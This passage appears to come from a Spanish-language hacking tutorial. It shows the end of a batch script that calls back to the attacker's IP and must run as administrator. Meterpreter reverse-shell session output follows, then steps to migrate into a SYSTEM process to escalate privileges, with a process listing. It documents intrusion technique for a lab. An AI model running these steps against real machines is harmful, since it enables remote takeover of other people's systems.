 ```shell

:: Cerrar CMD automáticamente
exit
```

Donde pone `<IP>` le pondremos nuestra IP donde tengamos el servidor de python abierto y por todo lo demas se queda como esta, este ejecutable se tendra que ejecutar como `administrador` eso es importante saberlo.

Una vez ejecutado ese `.bat`, si nos vamos a la escucha donde tenemos en metasploit.

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 3 opened (192.168.5.199:7777 -> 192.168.5.138:49167) at 2024-07-28 17:44:41 +0200

meterpreter > getuid
Server username: vuln-smb\diseo
```

Veremos que somos el usuario normal, esto en tal caso de que no estuviera en ninguna cuenta como `administrador`, por lo que para ser administradores totalmente, haremos lo siguiente.

migraremos a un proceso que se este ejecutando como `NT AUTHORITY\SYSTEM`, para que no de ningun error elegire el siguiente proceso.

```shell
ps
```

Info:

```
Process List
============

 PID   PPID  Name                      Arch  Session  User                          Path
 ---   ----  ----                      ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                    x64   0
 256   4     smss.exe                  x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 324   316   csrss.exe                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 372   316   wininit.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 380   364   csrss.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 420   364   winlogon.exe              x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 464   372   services.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 472   372   lsass.exe                 x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 480   372   lsm.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 524   464   svchost.exe               x64   0        NT AUTHORITY\Servicio de red  C:\Windows\system32\svchost.exe
 584   464   svchost.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 648   464   svchost.exe               x64   0        NT AUTHORITY\Servicio de red  C:\Windows\system32\svchost.exe
 740   1400  SearchProtocolHost.exe    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchProtocolHost.exe
 784   464   svchost.exe               x64   0        NT AUTHORITY\SERVICIO LOCAL   C:\Windows\System32\svchost.exe
```
